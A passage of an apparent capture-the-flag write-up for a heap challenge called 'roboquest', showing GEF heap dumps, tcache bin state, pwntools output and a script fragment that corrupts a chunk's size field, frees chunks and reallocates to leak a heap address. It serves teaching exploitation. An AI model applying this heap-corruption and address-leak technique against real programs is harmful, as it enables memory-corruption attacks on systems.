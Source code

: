 ```
0x55bd173e72b0: 0x6363636363636363      0x0000000000000021
0x55bd173e72c0: 0x0000000000000000      0x000055bd173e7010
0x55bd173e72d0: 0x6464646464646464      0x0000000000020d31
0x55bd173e72e0: 0x0000000000000000      0x0000000000000000
0x55bd173e72f0: 0x0000000000000000      0x0000000000000000
gef➤  heap bins
─────────────────────────────────────────────── Tcachebins for thread 1 ───────────────────────────────────────────────
Tcachebins[idx=0, size=0x20] count=2  ←  Chunk(addr=0x55bd173e72a0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x55bd173e72c0, size=0x20, flags=PREV_INUSE)
Tcachebins[idx=3, size=0x50] count=1  ←  Chunk(addr=0x55bd173e7280, size=0x50, flags=PREV_INUSE)
────────────────────────────────────────── Fastbins for arena 0x7fabe4f14c40 ───────────────────────────────────
...
```
Step 3 is to create a new quote, which we will set as 0x58 long. This will be placed in the available chunk from the 0x60 tcache, which will end up overwriting chunk c's contents. If I then write in 0x20 characters (0x1f letters, plus a newline), the contents are flush against the heap address and said address can be leaked by using the show_question() option.
```
gef➤  x/20gx 0x000055bd173e7260
0x55bd173e7260: 0x3030303030303030      0x3030303030303030
0x55bd173e7270: 0x3030303030303030      0x0000000000000051
0x55bd173e7280: 0x6565656565656565      0x6565656565656565
0x55bd173e7290: 0x6565656565656565      0x0a65656565656565
0x55bd173e72a0: 0x000055bd173e72c0      0x000055bd173e7010
0x55bd173e72b0: 0x6363636363636363      0x0000000000000021
0x55bd173e72c0: 0x0000000000000000      0x000055bd173e7010
0x55bd173e72d0: 0x6464646464646464      0x0000000000020d31
0x55bd173e72e0: 0x0000000000000000      0x0000000000000000
0x55bd173e72f0: 0x0000000000000000      0x0000000000000000
```
```
...
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;36m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's id:"
roboquest_writeup.py:44: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline(str(question_id))
[*] Switching to interactive mode
 [*] Question [1]: eeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
\xc0r>\x17U

1. Create
2. Show
3. Modify
4. Remove
> $
```
Here is the relevant portion of the script used to get these results:
```
create_question(0x18, b'a' * 0x18)
create_question(0x18, b'b' * 0x18)
create_question(0x18, b'c' * 0x18)
create_question(0x18, b'd' * 0x18)
modify_question(0, b'0' * 0x18 + b'\x51')
remove_question(1)
remove_question(3)
remove_question(2)
create_question(0x48, b'e' * 0x1f)
show_question(1)
```
